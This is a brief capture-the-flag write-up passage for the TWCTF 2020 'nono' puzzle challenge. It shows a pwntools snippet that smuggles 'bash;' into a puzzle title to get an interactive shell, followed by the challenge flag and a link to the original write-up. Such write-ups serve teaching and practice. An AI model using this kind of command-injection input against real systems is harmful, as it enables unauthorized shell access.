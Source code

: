 Now, we can simply make a new puzzle with a title containing a shell command
to get an interactive shell:

```python  
p.sendline("")  
p.sendlineafter("Your input: ", "2")  
p.sendline("bash;test#################################################1\n\n\n\n\n")  
```

And cat the flag: `TWCTF{watashi_puzzle_daisuki_mainiti_yatteru}`  

Original writeup
(https://github.com/allesctf/writeups/blob/master/2020/twctf/nono/nono.md).